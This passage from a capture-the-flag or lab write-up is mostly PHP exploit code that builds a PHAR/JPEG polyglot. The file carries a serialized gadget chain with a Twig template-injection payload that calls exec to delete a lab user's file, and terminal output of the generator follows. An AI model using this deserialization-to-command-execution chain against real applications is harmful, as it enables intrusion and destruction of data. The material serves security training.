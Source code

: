 ```php

    // calc tar checksum
    $chksum = 0;
    for ($i=0; $i<512; $i++){
        $chksum += ord(substr($contents, $i, 1));
    }
    // embed checksum
    $oct = sprintf("%07o", $chksum);
    $contents = substr($contents, 0, 148) . $oct . substr($contents, 155);
    return $contents;
}


// pop exploit class
class CustomTemplate {}
class Blog {}

$object = new CustomTemplate;
$blog = new Blog;
$blog->user = 'any_user_you_want';
$blog->desc = '{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("rm /home/carlos/morale.txt")}}';
$object->template_file_path = $blog;


// config for jpg
$tempname = 'temp.tar.phar'; // make it tar
$jpeg = file_get_contents('in.jpg');
$outfile = 'out.jpg';
$payload = $object;
$prefix = '';

var_dump(serialize($object));


// make jpg
file_put_contents($outfile, generate_polyglot(generate_base_phar($payload, $prefix), $jpeg));

/*
// config for gif
$prefix = "\x47\x49\x46\x38\x39\x61" . "\x2c\x01\x2c\x01"; // gif header, size 300 x 300
$tempname = 'temp.phar'; // make it phar
$outfile = 'out.gif';

// make gif
file_put_contents($outfile, generate_base_phar($payload, $prefix));

*/
```

**Generate PHAR JPG polygot:**
```shell
┌[root♥siunam]-(/opt/phar-jpg-polyglot)-[2023.01.13|15:23:56]-[git://master ✗]
└> php -c php.ini phar_jpg_polyglot.php
string(229) "O:14:"CustomTemplate":1:{s:18:"template_file_path";O:4:"Blog":2:{s:4:"user";s:17:"any_user_you_want";s:4:"desc";s:106:"{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("rm /home/carlos/morale.txt")}}";}}"
┌[root♥siunam]-(/opt/phar-jpg-polyglot)-[2023.01.13|15:23:58]-[git://master ✗]
└> ls -lah out.jpg     
-rw-r--r-- 1 root root 132K Jan 13 15:23 out.jpg
```
